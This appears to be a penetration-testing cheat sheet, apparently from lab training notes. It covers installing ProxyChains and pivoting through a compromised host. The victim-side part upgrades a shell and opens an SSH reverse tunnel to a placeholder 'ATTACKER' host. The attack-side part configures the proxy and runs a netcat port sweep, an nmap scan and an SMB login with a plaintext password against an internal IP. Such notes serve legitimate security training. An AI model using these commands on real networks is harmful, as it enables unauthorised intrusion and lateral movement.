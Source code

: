 ProxyChains is a UNIX program, that hooks network-related libc functions in DYNAMICALLY LINKED programs via a preloaded DLL (dlsym(), LD_PRELOAD) and redirects the connections through SOCKS4a/5 or HTTP proxies. It supports TCP only (no UDP/ICMP etc).

```bash
git clone https://github.com/rofl0r/proxychains-ng
cd proxychains-ng

# Install
./configure --prefix=/usr --sysconfdir=/etc
Done, now run make && make install

sudo make install
./tools/install.sh -D -m 644 libproxychains4.so /usr/lib/libproxychains4.so
./tools/install.sh -D -m 755 proxychains4 /usr/bin/proxychains4
./tools/install.sh -D -m 755 proxychains4-daemon /usr/bin/proxychains4-daemon
                                            
sudo make install-config 
./tools/install.sh -D -m 644 src/proxychains.conf /etc/proxychains.conf

# Configure tcp timeouts
sudo sed -i 's/tcp_read_time_out .*/tcp_read_time_out 1000/g' /etc/proxychains.conf
sudo sed -i 's/tcp_connect_time_out .*/tcp_connect_time_out 1000/g' /etc/proxychains.conf
```

Victim

* -R dynamic remote port forwarding

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -N -R 9998 kali@ATTACKER -v -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"
```

Attack

* Configure `/etc/proxychains.conf` to attacker local port on loobback 127.0.0.1

```bash
# Open /etc/proxychains.conf
proxychains -f /etc/proxychains.conf

# Configure proxy chain socks5 127.0.0.1 9998
sudo sed -i 's/socks .*/socks5 127.0.0.1 9998/g' /etc/proxychains.conf

# Port sweeping and scanning
proxychains bash -c 'for i in $(seq 1 1024); do nc -zv -w 1 172.16.175.217 $i; done;'

sudo proxychains nmap -sT -p4870-4874 -Pn 172.16.175.217
[proxychains] config file found: /etc/proxychains.conf

# SMB Attack
proxychains smbclient -p 445 -L //s172.16.175.217/ -U hr_admin --password=Welcome1234

# Other
proxychains ./ssh_dynamic_remote_client_aarch64 --ip-addr 172.16.175.217 --port 1234
```
